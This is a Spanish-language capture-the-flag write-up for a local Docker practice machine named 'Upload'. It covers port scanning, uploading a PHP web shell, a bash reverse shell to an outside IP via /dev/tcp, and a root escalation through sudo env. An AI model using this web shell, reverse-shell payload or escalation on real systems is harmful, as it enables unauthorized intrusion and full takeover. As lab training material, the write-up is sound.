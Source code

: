 - Tags: #Upload
----
[Maquina Upload](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ) ==> Enlace de descarga al laboratorio.
```bash
7z x upload.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh upload.tar # Desplegamos el contenedor.
```

#### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target.
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target.

wichSystem.py 172.17.0.2 # Deteminamos que nos estamos enfrentando ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

#### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos escaneo de puertos.
extractPorts allPorts # Parseamos la informacion mas importante del primer escaneo
nmap -sC -sV -p80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar la version y servicio que corren detras de estos puertos.
```

#### Fase Reconocimiento Web:
**( 80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu)) )** ==> Tenemos un servicio de apache desplegado.
```bash
whatweb http://172.17.0.2 # No reporta nada critico
```

**( http://172.17.0.2/ )** ==> Tenemos esta web que nos permite subir archivos.
**( http://172.17.0.2/uploads/ )** ==> Tenemos esta ruta donde posiblemente se almacenen los archivos cargados
[PHP Extensions](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/file-upload/alt-extensions-php.txt) ==> Crearemos un archivo php que intentaremos subir y probaremos con ciertas extensiones para poder ver si podemos ejecutar codigo. El archivo que subimos contendra lo siguiente.
```php
# cmd.php
<?php
	system($_GET["cmd"]);
?<
```

**( http://172.17.0.2/uploads/cmd.php?cmd=whoami )** ==> Cargamos el archivo y ejecutamos el siguiente comando. Biendo que en la respuesta tendremos: **( www-data )**

#### Fase Intrusion:
```bash
nc -nlvp 443

http://172.17.0.2/uploads/cmd.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/192.168.100.22/443%20%3C%261%27 # Ganamos acceso al target
```

#### Fase Escalada Privilegio:
```bash
whoami # Estamos como www-data
hostname -I # Estamos en 172.17.0.2 IP del target
```

```bash
sudo -l

User www-data may run the following commands on 518be55b1e6d:
    (root) NOPASSWD: /usr/bin/env  # Tenemos una via potencial de elevar privilegios.

sudo -u root /usr/bin/env bash -p # Elevamos privilegios de root teniendo control total sobre el target.
```

